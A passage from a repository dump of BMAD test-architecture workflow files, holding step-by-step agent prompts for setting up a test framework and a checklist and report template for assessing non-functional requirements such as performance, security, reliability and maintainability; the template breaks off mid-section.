outputFile: '{test_dir}/README.md'
progressFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 4: Documentation & Scripts

## STEP GOAL

Create test documentation and add build/test scripts appropriate for `{detected_stack}`.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. tests/README.md

Create `{outputFile}` and include:

- Setup instructions
- Running tests (local/headed/debug)
- Architecture overview (fixtures, factories, helpers)
- Best practices (selectors, isolation, cleanup)
- CI integration notes
- Knowledge base references

---

## 2. Build & Test Scripts

**If {detected_stack} is `frontend` or `fullstack`:**

Add to `package.json` at minimum:

- `test:e2e`: framework execution command (e.g., `npx playwright test`)

**If {detected_stack} is `backend` or `fullstack`:**

Add the idiomatic test commands for the detected framework:

- **Python (pytest)**: Add to `pyproject.toml` scripts or `Makefile`: `pytest`, `pytest --cov`, `pytest -m integration`
- **Java (JUnit)**: Add to `build.gradle`/`pom.xml`: `./gradlew test`, `mvn test`, `mvn verify` (integration)
- **Go**: Add to `Makefile`: `go test ./...`, `go test -race ./...`, `go test -cover ./...`
- **C#/.NET**: Add to CI scripts or `Makefile`: `dotnet test`, `dotnet test --collect:"XPlat Code Coverage"`
- **Ruby (RSpec)**: Add to `Gemfile` binstubs or `Makefile`: `bundle exec rspec`, `bundle exec rspec spec/integration`

---

### 3. Save Progress

**Save this step's accumulated work to `{progressFile}`.**

- **If `{progressFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-docs-and-scripts']
  lastStep: 'step-04-docs-and-scripts'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{progressFile}` already exists**, update:
  - Add `'step-04-docs-and-scripts'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-docs-and-scripts'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-05-validate-and-summary.md`
```markdown
---
name: 'step-05-validate-and-summary'
description: 'Validate against checklist and summarize'
outputFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 5: Validate & Summarize

## STEP GOAL

Validate framework setup and provide a completion summary.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Validation

Validate against `checklist.md`:

- Preflight success
- Directory structure created
- Config correctness
- Fixtures/factories created
- Docs and scripts present

Fix any gaps before completion.

---

## 2. Completion Summary

Report:

- Framework selected
- Artifacts created
- Next steps (install deps, run tests)
- Knowledge fragments applied

---

### 3. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-05-validate-and-summary']
  lastStep: 'step-05-validate-and-summary'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-05-validate-and-summary'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-05-validate-and-summary'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/framework-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-nfr/SKILL.md`
```markdown
---
name: bmad-testarch-nfr
description: 'Assess NFRs like performance security and reliability. Use when the user says "lets assess NFRs" or "I want to evaluate non-functional requirements"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-nfr/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-nfr/checklist.md`
```markdown
# Non-Functional Requirements Assessment - Validation Checklist

**Workflow:** `testarch-nfr`
**Purpose:** Ensure comprehensive and evidence-based NFR assessment with actionable recommendations

---

Note: `nfr-assess` evaluates existing evidence; it does not run tests or CI workflows.

## Prerequisites Validation

- [ ] Implementation is deployed and accessible for evaluation
- [ ] Evidence sources are available (test results, metrics, logs, CI results)
- [ ] NFR categories are determined (performance, security, reliability, maintainability, custom)
- [ ] Evidence directories exist and are accessible (`test_results_dir`, `metrics_dir`, `logs_dir`)
- [ ] Knowledge base is loaded (nfr-criteria, ci-burn-in, test-quality)

---

## Context Loading

- [ ] Tech-spec.md loaded successfully (if available)
- [ ] PRD.md loaded (if available)
- [ ] Story file loaded (if applicable)
- [ ] Relevant knowledge fragments loaded from `tea-index.csv`:
  - [ ] `nfr-criteria.md`
  - [ ] `ci-burn-in.md`
  - [ ] `test-quality.md`
  - [ ] `playwright-config.md` (if using Playwright)

---

## NFR Categories and Thresholds

### Performance

- [ ] Response time threshold defined or marked as UNKNOWN
- [ ] Throughput threshold defined or marked as UNKNOWN
- [ ] Resource usage thresholds defined or marked as UNKNOWN
- [ ] Scalability requirements defined or marked as UNKNOWN

### Security

- [ ] Authentication requirements defined or marked as UNKNOWN
- [ ] Authorization requirements defined or marked as UNKNOWN
- [ ] Data protection requirements defined or marked as UNKNOWN
- [ ] Vulnerability management thresholds defined or marked as UNKNOWN
- [ ] Compliance requirements identified (GDPR, HIPAA, PCI-DSS, etc.)

### Reliability

- [ ] Availability (uptime) threshold defined or marked as UNKNOWN
- [ ] Error rate threshold defined or marked as UNKNOWN
- [ ] MTTR (Mean Time To Recovery) threshold defined or marked as UNKNOWN
- [ ] Fault tolerance requirements defined or marked as UNKNOWN
- [ ] Disaster recovery requirements defined (RTO, RPO) or marked as UNKNOWN

### Maintainability

- [ ] Test coverage threshold defined or marked as UNKNOWN
- [ ] Code quality threshold defined or marked as UNKNOWN
- [ ] Technical debt threshold defined or marked as UNKNOWN
- [ ] Documentation completeness threshold defined or marked as UNKNOWN

### Custom NFR Categories (if applicable)

- [ ] Custom NFR category 1: Thresholds defined or marked as UNKNOWN
- [ ] Custom NFR category 2: Thresholds defined or marked as UNKNOWN
- [ ] Custom NFR category 3: Thresholds defined or marked as UNKNOWN

---

## Evidence Gathering

### Performance Evidence

- [ ] Load test results collected (JMeter, k6, Gatling, etc.)
- [ ] Application metrics collected (response times, throughput, resource usage)
- [ ] APM data collected (New Relic, Datadog, Dynatrace, etc.)
- [ ] Lighthouse reports collected (if web app)
- [ ] Playwright performance traces collected (if applicable)

### Security Evidence

- [ ] SAST results collected (SonarQube, Checkmarx, Veracode, etc.)
- [ ] DAST results collected (OWASP ZAP, Burp Suite, etc.)
- [ ] Dependency scanning results collected (Snyk, Dependabot, npm audit)
- [ ] Penetration test reports collected (if available)
- [ ] Security audit logs collected
- [ ] Compliance audit results collected (if applicable)

### Reliability Evidence

- [ ] Uptime monitoring data collected (Pingdom, UptimeRobot, StatusCake)
- [ ] Error logs collected
- [ ] Error rate metrics collected
- [ ] CI burn-in results collected (stability over time)
- [ ] Chaos engineering test results collected (if available)
- [ ] Failover/recovery test results collected (if available)
- [ ] Incident reports and postmortems collected (if applicable)

### Maintainability Evidence

- [ ] Code coverage reports collected (Istanbul, NYC, c8, JaCoCo)
- [ ] Static analysis results collected (ESLint, SonarQube, CodeClimate)
- [ ] Technical debt metrics collected
- [ ] Documentation audit results collected
- [ ] Test review report collected (from test-review workflow, if available)
- [ ] Git metrics collected (code churn, commit frequency, etc.)

---

## NFR Assessment with Deterministic Rules

### Performance Assessment

- [ ] Response time assessed against threshold
- [ ] Throughput assessed against threshold
- [ ] Resource usage assessed against threshold
- [ ] Scalability assessed against requirements
- [ ] Status classified (PASS/CONCERNS/FAIL) with justification
- [ ] Evidence source documented (file path, metric name)

### Security Assessment

- [ ] Authentication strength assessed against requirements
- [ ] Authorization controls assessed against requirements
- [ ] Data protection assessed against requirements
- [ ] Vulnerability management assessed against thresholds
- [ ] Compliance assessed against requirements
- [ ] Status classified (PASS/CONCERNS/FAIL) with justification
- [ ] Evidence source documented (file path, scan result)

### Reliability Assessment

- [ ] Availability (uptime) assessed against threshold
- [ ] Error rate assessed against threshold
- [ ] MTTR assessed against threshold
- [ ] Fault tolerance assessed against requirements
- [ ] Disaster recovery assessed against requirements (RTO, RPO)
- [ ] CI burn-in assessed (stability over time)
- [ ] Status classified (PASS/CONCERNS/FAIL) with justification
- [ ] Evidence source documented (file path, monitoring data)

### Maintainability Assessment

- [ ] Test coverage assessed against threshold
- [ ] Code quality assessed against threshold
- [ ] Technical debt assessed against threshold
- [ ] Documentation completeness assessed against threshold
- [ ] Test quality assessed (from test-review, if available)
- [ ] Status classified (PASS/CONCERNS/FAIL) with justification
- [ ] Evidence source documented (file path, coverage report)

### Custom NFR Assessment (if applicable)

- [ ] Custom NFR 1 assessed against threshold with justification
- [ ] Custom NFR 2 assessed against threshold with justification
- [ ] Custom NFR 3 assessed against threshold with justification

---

## Status Classification Validation

### PASS Criteria Verified

- [ ] Evidence exists for PASS status
- [ ] Evidence meets or exceeds threshold
- [ ] No concerns flagged in evidence
- [ ] Quality is acceptable

### CONCERNS Criteria Verified

- [ ] Threshold is UNKNOWN (documented) OR
- [ ] Evidence is MISSING or INCOMPLETE (documented) OR
- [ ] Evidence is close to threshold (within 10%, documented) OR
- [ ] Evidence shows intermittent issues (documented)

### FAIL Criteria Verified

- [ ] Evidence exists BUT does not meet threshold (documented) OR
- [ ] Critical evidence is MISSING (documented) OR
- [ ] Evidence shows consistent failures (documented) OR
- [ ] Quality is unacceptable (documented)

### No Threshold Guessing

- [ ] All thresholds are either defined or marked as UNKNOWN
- [ ] No thresholds were guessed or inferred
- [ ] All UNKNOWN thresholds result in CONCERNS status

---

## Quick Wins and Recommended Actions

### Quick Wins Identified

- [ ] Low-effort, high-impact improvements identified for CONCERNS/FAIL
- [ ] Configuration changes (no code changes) identified
- [ ] Optimization opportunities identified (caching, indexing, compression)
- [ ] Monitoring additions identified (detect issues before failures)

### Recommended Actions

- [ ] Specific remediation steps provided (not generic advice)
- [ ] Priority assigned (CRITICAL, HIGH, MEDIUM, LOW)
- [ ] Estimated effort provided (hours, days)
- [ ] Owner suggestions provided (dev, ops, security)

### Monitoring Hooks

- [ ] Performance monitoring suggested (APM, synthetic monitoring)
- [ ] Error tracking suggested (Sentry, Rollbar, error logs)
- [ ] Security monitoring suggested (intrusion detection, audit logs)
- [ ] Alerting thresholds suggested (notify before breach)

### Fail-Fast Mechanisms

- [ ] Circuit breakers suggested for reliability
- [ ] Rate limiting suggested for performance
- [ ] Validation gates suggested for security
- [ ] Smoke tests suggested for maintainability

---

## Deliverables Generated

### NFR Assessment Report

- [ ] File created at `{test_artifacts}/nfr-assessment.md`
- [ ] Template from `nfr-report-template.md` used
- [ ] Executive summary included (overall status, critical issues)
- [ ] Assessment by category included (performance, security, reliability, maintainability)
- [ ] Evidence for each NFR documented
- [ ] Status classifications documented (PASS/CONCERNS/FAIL)
- [ ] Findings summary included (PASS count, CONCERNS count, FAIL count)
- [ ] Quick wins section included
- [ ] Recommended actions section included
- [ ] Evidence gaps checklist included

### Gate YAML Snippet (if enabled)

- [ ] YAML snippet generated
- [ ] Date included
- [ ] Categories status included (performance, security, reliability, maintainability)
- [ ] Overall status included (PASS/CONCERNS/FAIL)
- [ ] Issue counts included (critical, high, medium, concerns)
- [ ] Blockers flag included (true/false)
- [ ] Recommendations included

### Evidence Checklist (if enabled)

- [ ] All NFRs with MISSING or INCOMPLETE evidence listed
- [ ] Owners assigned for evidence collection
- [ ] Suggested evidence sources provided
- [ ] Deadlines set for evidence collection

### Updated Story File (if enabled and requested)

- [ ] "NFR Assessment" section added to story markdown
- [ ] Link to NFR assessment report included
- [ ] Overall status and critical issues included
- [ ] Gate status included

---

## Quality Assurance

### Accuracy Checks

- [ ] All NFR categories assessed (none skipped)
- [ ] All thresholds documented (defined or UNKNOWN)
- [ ] All evidence sources documented (file paths, metric names)
- [ ] Status classifications are deterministic and consistent
- [ ] No false positives (status correctly assigned)
- [ ] No false negatives (all issues identified)

### Completeness Checks

- [ ] All NFR categories covered (performance, security, reliability, maintainability, custom)
- [ ] All evidence sources checked (test results, metrics, logs, CI results)
- [ ] All status types used appropriately (PASS, CONCERNS, FAIL)
- [ ] All NFRs with CONCERNS/FAIL have recommendations
- [ ] All evidence gaps have owners and deadlines

### Actionability Checks

- [ ] Recommendations are specific (not generic)
- [ ] Remediation steps are clear and actionable
- [ ] Priorities are assigned (CRITICAL, HIGH, MEDIUM, LOW)
- [ ] Effort estimates are provided (hours, days)
- [ ] Owners are suggested (dev, ops, security)

---

## Integration with BMad Artifacts

### With tech-spec.md

- [ ] Tech spec loaded for NFR requirements and thresholds
- [ ] Performance targets extracted
- [ ] Security requirements extracted
- [ ] Reliability SLAs extracted
- [ ] Architectural decisions considered

### With test-design.md

- [ ] Test design loaded for NFR test plan
- [ ] Test priorities referenced (P0/P1/P2/P3)
- [ ] Assessment aligned with planned NFR validation

### With PRD.md

- [ ] PRD loaded for product-level NFR context
- [ ] User experience goals considered
- [ ] Unstated requirements checked
- [ ] Product-level SLAs referenced

---

## Quality Gates Validation

### Release Blocker (FAIL)

- [ ] Critical NFR status checked (security, reliability)
- [ ] Performance failures assessed for user impact
- [ ] Release blocker flagged if critical NFR has FAIL status

### PR Blocker (HIGH CONCERNS)

- [ ] High-priority NFR status checked
- [ ] Multiple CONCERNS assessed
- [ ] PR blocker flagged if HIGH priority issues exist

### Warning (CONCERNS)

- [ ] Any NFR with CONCERNS status flagged
- [ ] Missing or incomplete evidence documented
- [ ] Warning issued to address before next release

### Pass (PASS)

- [ ] All NFRs have PASS status
- [ ] No blockers or concerns exist
- [ ] Ready for release confirmed

---

## Non-Prescriptive Validation

- [ ] NFR categories adapted to team needs
- [ ] Thresholds appropriate for project context
- [ ] Assessment criteria customized as needed
- [ ] Teams can extend with custom NFR categories
- [ ] Integration with external tools supported (New Relic, Datadog, SonarQube, JIRA)

---

## Documentation and Communication

- [ ] NFR assessment report is readable and well-formatted
- [ ] Tables render correctly in markdown
- [ ] Code blocks have proper syntax highlighting
- [ ] Links are valid and accessible
- [ ] Recommendations are clear and prioritized
- [ ] Overall status is prominent and unambiguous
- [ ] Executive summary provides quick understanding

---

## Final Validation

- [ ] All prerequisites met
- [ ] All NFR categories assessed with evidence (or gaps documented)
- [ ] No thresholds were guessed (all defined or UNKNOWN)
- [ ] Status classifications are deterministic and justified
- [ ] Quick wins identified for all CONCERNS/FAIL
- [ ] Recommended actions are specific and actionable
- [ ] Evidence gaps documented with owners and deadlines
- [ ] NFR assessment report generated and saved
- [ ] Gate YAML snippet generated (if enabled)
- [ ] Evidence checklist generated (if enabled)
- [ ] Workflow completed successfully

---

## Sign-Off

**NFR Assessment Status:**

- [ ] ✅ PASS - All NFRs meet requirements, ready for release
- [ ] ⚠️ CONCERNS - Some NFRs have concerns, address before next release
- [ ] ❌ FAIL - Critical NFRs not met, BLOCKER for release

**Next Actions:**

- If PASS ✅: Proceed to `*gate` workflow or release
- If CONCERNS ⚠️: Address HIGH/CRITICAL issues, re-run `*nfr-assess`
- If FAIL ❌: Resolve FAIL status NFRs, re-run `*nfr-assess`

**Critical Issues:** {COUNT}
**High Priority Issues:** {COUNT}
**Concerns:** {COUNT}

---

<!-- Powered by BMAD-CORE™ -->
```

## File: `src/workflows/testarch/bmad-testarch-nfr/instructions.md`
```markdown
# Non-Functional Requirements Assessment

**Workflow:** `bmad-testarch-nfr`
**Version:** 5.0 (Step-File Architecture)

---

## Overview

Assess non-functional requirements (performance, security, reliability, maintainability) with evidence-based validation and deterministic PASS/CONCERNS/FAIL outcomes.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `custom_nfr_categories`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-load-context.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-nfr/nfr-report-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-nfr-assess'
inputDocuments: []
---

# NFR Assessment - {FEATURE_NAME}

**Date:** {DATE}
**Story:** {STORY_ID} (if applicable)
**Overall Status:** {OVERALL_STATUS} {STATUS_ICON}

---

Note: This assessment summarizes existing evidence; it does not run tests or CI workflows.

## Executive Summary

**Assessment:** {PASS_COUNT} PASS, {CONCERNS_COUNT} CONCERNS, {FAIL_COUNT} FAIL

**Blockers:** {BLOCKER_COUNT} {BLOCKER_DESCRIPTION}

**High Priority Issues:** {HIGH_PRIORITY_COUNT} {HIGH_PRIORITY_DESCRIPTION}

**Recommendation:** {OVERALL_RECOMMENDATION}

---

## Performance Assessment

### Response Time (p95)

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE}
- **Actual:** {ACTUAL_VALUE}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### Throughput

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE}
- **Actual:** {ACTUAL_VALUE}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### Resource Usage

- **CPU Usage**
  - **Status:** {STATUS} {STATUS_ICON}
  - **Threshold:** {THRESHOLD_VALUE}
  - **Actual:** {ACTUAL_VALUE}
  - **Evidence:** {EVIDENCE_SOURCE}

- **Memory Usage**
  - **Status:** {STATUS} {STATUS_ICON}
  - **Threshold:** {THRESHOLD_VALUE}
  - **Actual:** {ACTUAL_VALUE}
  - **Evidence:** {EVIDENCE_SOURCE}

### Scalability

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

---

## Security Assessment

### Authentication Strength

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}
- **Recommendation:** {RECOMMENDATION} (if CONCERNS or FAIL)

### Authorization Controls

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### Data Protection

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### Vulnerability Management

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION} (e.g., "0 critical, <3 high vulnerabilities")
- **Actual:** {ACTUAL_DESCRIPTION} (e.g., "0 critical, 1 high, 5 medium vulnerabilities")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Snyk scan results - scan-2025-10-14.json")
- **Findings:** {FINDINGS_DESCRIPTION}

### Compliance (if applicable)

- **Status:** {STATUS} {STATUS_ICON}
- **Standards:** {COMPLIANCE_STANDARDS} (e.g., "GDPR, HIPAA, PCI-DSS")
- **Actual:** {ACTUAL_COMPLIANCE_STATUS}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

---

## Reliability Assessment

### Availability (Uptime)

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., "99.9%")
- **Actual:** {ACTUAL_VALUE} (e.g., "99.95%")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Uptime monitoring - uptime-report-2025-10-14.csv")
- **Findings:** {FINDINGS_DESCRIPTION}

### Error Rate

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., "<0.1%")
- **Actual:** {ACTUAL_VALUE} (e.g., "0.05%")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Error logs - logs/errors-2025-10.log")
- **Findings:** {FINDINGS_DESCRIPTION}

### MTTR (Mean Time To Recovery)

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., "<15 minutes")
- **Actual:** {ACTUAL_VALUE} (e.g., "12 minutes")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Incident reports - incidents/")
- **Findings:** {FINDINGS_DESCRIPTION}

### Fault Tolerance

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### CI Burn-In (Stability)

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., "100 consecutive successful runs")
- **Actual:** {ACTUAL_VALUE} (e.g., "150 consecutive successful runs")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "CI burn-in results - ci-burn-in-2025-10-14.log")
- **Findings:** {FINDINGS_DESCRIPTION}

### Disaster Recovery (if applicable)

- **RTO (Recovery Time Objective)**
  - **Status:** {STATUS} {STATUS_ICON}
  - **Threshold:** {THRESHOLD_VALUE}
  - **Actual:** {ACTUAL_VALUE}
  - **Evidence:** {EVIDENCE_SOURCE}

- **RPO (Recovery Point Objective)**
  - **Status:** {STATUS} {STATUS_ICON}
  - **Threshold:** {THRESHOLD_VALUE}
  - **Actual:** {ACTUAL_VALUE}
  - **Evidence:** {EVIDENCE_SOURCE}

---

## Maintainability Assessment

### Test Coverage

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., ">=80%")
- **Actual:** {ACTUAL_VALUE} (e.g., "87%")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Coverage report - coverage/lcov-report/index.html")
- **Findings:** {FINDINGS_DESCRIPTION}

### Code Quality

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., ">=85/100")
- **Actual:** {ACTUAL_VALUE} (e.g., "92/100")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "SonarQube analysis - sonarqube-report-2025-10-14.pdf")
- **Findings:** {FINDINGS_DESCRIPTION}

### Technical Debt

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., "<5% debt ratio")
- **Actual:** {ACTUAL_VALUE} (e.g., "3.2% debt ratio")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "CodeClimate analysis - codeclimate-2025-10-14.json")
- **Findings:** {FINDINGS_DESCRIPTION}

### Documentation Completeness

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_VALUE} (e.g., ">=90%")
- **Actual:** {ACTUAL_VALUE} (e.g., "95%")
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Documentation audit - docs-audit-2025-10-14.md")
- **Findings:** {FINDINGS_DESCRIPTION}

### Test Quality (from test-review, if available)

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE} (e.g., "Test review report - test-review-2025-10-14.md")
- **Findings:** {FINDINGS_DESCRIPTION}

---

## Custom NFR Assessments (if applicable)

### {CUSTOM_NFR_NAME_1}

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

### {CUSTOM_NFR_NAME_2}

- **Status:** {STATUS} {STATUS_ICON}
- **Threshold:** {THRESHOLD_DESCRIPTION}
- **Actual:** {ACTUAL_DESCRIPTION}
- **Evidence:** {EVIDENCE_SOURCE}
- **Findings:** {FINDINGS_DESCRIPTION}

---

## Quick Wins

{QUICK_WIN_COUNT} quick wins identified for immediate implementation:

1. **{QUICK_WIN_TITLE_1}** ({NFR_CATEGORY}) - {PRIORITY} - {ESTIMATED_EFFORT}
   - {QUICK_WIN_DESCRIPTION}
   - No code changes needed / Minimal code changes

2. **{QUICK_WIN_TITLE_2}** ({NFR_CATEGORY}) - {PRIORITY} - {ESTIMATED_EFFORT}
   - {QUICK_WIN_DESCRIPTION}

---

## Recommended Actions

### Immediate (Before Release) - CRITICAL/HIGH Priority

1. **{ACTION_TITLE_1}** - {PRIORITY} - {ESTIMATED_EFFORT} - {OWNER}
   - {ACTION_DESCRIPTION}
